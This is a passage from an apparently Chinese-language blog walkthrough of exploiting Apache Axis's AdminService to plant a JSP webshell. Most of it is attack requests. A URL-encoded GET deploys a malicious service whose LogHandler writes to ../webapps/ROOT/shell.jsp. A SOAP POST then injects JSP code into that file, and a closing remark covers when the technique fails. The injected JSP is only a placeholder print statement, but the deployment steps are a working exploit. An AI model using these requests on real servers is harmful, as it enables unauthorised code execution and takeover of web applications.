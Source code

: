 ```xml
        </requestFlow>
          <parameter name="className" value="java.util.Random" />
          <parameter name="allowedMethods" value="*" />
        </service>
    </deployment>
  </soap:Body>
</soap:Envelope>
```
GET请求：
```
GET /axis/services/AdminService?method=!--%3E%3Cdeployment%20xmlns%3D%22http%3A%2F%2Fxml.apache.org%2Faxis%2Fwsdd%2F%22%20xmlns%3Ajava%3D%22http%3A%2F%2Fxml.apache.org%2Faxis%2Fwsdd%2Fproviders%2Fjava%22%3E%3Cservice%20name%3D%22randomBBB%22%20provider%3D%22java%3ARPC%22%3E%3CrequestFlow%3E%3Chandler%20type%3D%22java%3Aorg.apache.axis.handlers.LogHandler%22%20%3E%3Cparameter%20name%3D%22LogHandler.fileName%22%20value%3D%22..%2Fwebapps%2FROOT%2Fshell.jsp%22%20%2F%3E%3Cparameter%20name%3D%22LogHandler.writeToConsole%22%20value%3D%22false%22%20%2F%3E%3C%2Fhandler%3E%3C%2FrequestFlow%3E%3Cparameter%20name%3D%22className%22%20value%3D%22java.util.Random%22%20%2F%3E%3Cparameter%20name%3D%22allowedMethods%22%20value%3D%22*%22%20%2F%3E%3C%2Fservice%3E%3C%2Fdeployment HTTP/1.1
Host: 127.0.0.1:8080
```
通过get或post请求部署完成后，可以看到配置文件已经被改变了
![](https://img-blog.csdnimg.cn/65fb90836a844d33a46bdbed77eaccb8.png)

第二步访问刚才部署的service，请求内容包含webshell
```xml
POST /axis/services/randomBBB HTTP/1.1
Host: 127.0.0.1:8080
Content-Type: text/xml; charset=utf-8
SOAPAction: ""
Content-Length: 700

<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:util="http://util.java">
   <soapenv:Header/>
   <soapenv:Body>
      <util:ints soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
         <in0 xsi:type="xsd:int" xs:type="type:int" xmlns:xs="http://www.w3.org/2000/XMLSchema-instance"><![CDATA[
<% out.println("AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"); %>
]]></in0>
         <in1 xsi:type="xsd:int" xs:type="type:int" xmlns:xs="http://www.w3.org/2000/XMLSchema-instance">?</in1>
      </util:ints>
   </soapenv:Body>
</soapenv:Envelope>
```
成功写入`../webapps/ROOT/shell.jsp`
![](https://img-blog.csdnimg.cn/4f5c513276da48119248a5002a8de173.png)

>缺陷：只有写入jsp文件时，并且目标服务器解析jsp文件时才有用，例如不让解析jsp但是解析jspx文件时，因为log中有其他垃圾信息，jspx会解析错误，所以写入jspx也是没用的
